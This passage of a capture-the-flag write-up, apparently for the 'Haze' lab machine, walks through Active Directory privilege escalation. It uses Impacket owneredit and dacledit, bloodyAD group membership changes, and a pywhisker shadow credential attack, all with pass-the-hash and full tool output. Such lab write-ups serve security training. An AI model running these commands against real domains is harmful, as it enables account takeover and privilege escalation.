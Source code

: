 Let's Write ourselves to be `owner` of `Support Services`.

```bash
owneredit.py -action write -new-owner "Haze-IT-Backup$" -target "SUPPORT_SERVICES" "haze.htb"/"Haze-IT-Backup$" -hashes ffffffffffffffffffffffffffffffff:735C02C6B2DC54C3C8C6891F55279EBC

Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-323145914-28650650-2368316563-1111
[*] - sAMAccountName: Haze-IT-Backup$
[*] - distinguishedName: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
[*] OwnerSid modified successfully!
```

Next let's give ourselves full control over the group.

```bash
dacledit.py -action write -rights FullControl -target 'SUPPORT_SERVICES' -principal 'Haze-IT-Backup$' haze.htb/'Haze-IT-Backup$' -hashes ':735c02c6b2dc54c3c8c6891f55279ebc' -dc-ip haze.htb

Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250330-104432.bak
[*] DACL modified successfully!
```

Next let's add ourselves to the group.

```bash
bloodyAD --host haze.htb -d haze.htb -u 'Haze-IT-Backup$' -p :735C02C6B2DC54C3C8C6891F55279EBC add groupMember SUPPORT_SERVICES 'Haze-IT-Backup$'

[+] Haze-IT-Backup$ added to SUPPORT_SERVICES
```

## Shadow Credential Attack
Let's use `pywhisker` to add auto-generated keys to the the `msDs-KeyCredentialLink` attribute of `edward.martin`

```bash
pywhisker -d "haze.htb" -u "Haze-IT-Backup$" -H "735C02C6B2DC54C3C8C6891F55279EBC" --target "edward.martin" --action "add"

[*] Searching for the target account
[*] Target user found: CN=Edward Martin,CN=Users,DC=haze,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 8e0f07a6-ab13-39aa-5b7f-2b8dbdd6faef
[*] Updating the msDS-KeyCredentialLink attribute of edward.martin
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: Kf14H5Si.pfx
[+] PFX exportiert nach: Kf14H5Si.pfx
[i] Passwort für PFX: J9bzmigt4JPrq6u6JvoW
[+] Saved PFX (#PKCS12) certificate & key at path: Kf14H5Si.pfx
[*] Must be used with password: J9bzmigt4JPrq6u6JvoW
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```
